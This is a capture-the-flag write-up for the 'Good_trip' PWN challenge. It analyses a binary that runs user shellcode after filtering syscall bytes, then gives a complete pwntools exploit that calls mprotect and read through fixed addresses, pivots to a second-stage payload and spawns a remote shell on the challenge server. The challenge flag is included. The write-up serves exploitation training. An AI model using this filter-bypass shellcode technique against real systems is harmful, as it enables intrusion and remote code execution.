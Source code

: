 https://ctftime.org/event/2222

# Good_trip (PWN)

if you think about it? it doesn't make any sense. GOOOOD TRIP

nc 172.210.129.230 1351

## Binary Analysis

- `main` @ `0x004012b5`
    - maps a page @ `0x1337131000` with rwx
    - reads your code into this page
    - calls `filter`
        - if the filter returns non-zero `exit(-1)`
    - calls `exec`

- `filter` @ `0x004011eb`
    - checks for the byte sequences `0f 05` and `cd 80`
        - these correspond to `syscall`, `int 0x80`
    - code also checks for `0f 04` but idk what this does

- `exec` @ `0x004011a6`
    - clears a bunch of registers including `rsp`
    - jumps to `0x1337131000` / our code

## Solution

1) Restore the stack so we can make function calls - any RW region should do
2) Change the protections on `0x1337131000` so we can write more shellcode
3) Call `read` to read more shellcode - containing the syscall
4) Pivot to the new shellcode we read

```python
from pwn import *

elf = ELF("./good_trip", checksec=False)
context.binary = elf

p = remote("172.210.129.230", 1351)

payload = b"\x90" * 44 # nops to overwrite
payload += asm("mov rsp, 0x404500") # new stack
payload += asm("mov rdx, 7")
payload += asm("mov rsi, 4096")
payload += asm("movabs rdi, 0x1337131000")
payload += asm("mov rax, 0x00401090")
payload += asm("call rax") # mprotect(0x1337131000, 4096, 7)
payload += asm("mov rdx, 100")
payload += asm("mov rsi, 0x1337131000")
payload += asm("mov rdi, 0")
payload += asm("mov rax, 0x00401060")
payload += asm("call rax") # read(0, 0x1337131000, 100)
payload += asm("movabs rax, 0x1337131000")
payload += asm("jmp rax") # jmp 0x1337131000

p.readuntil(b"code size >> ")
p.sendline(str(len(payload)).encode())

p.readuntil(b"code >> ")
p.sendline(payload)

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## Flag
`AKASEC{y34h_You_C4N7_PRO73C7_5om37hIn9_YoU_doN7_h4V3}`

smiley 2024/06/08
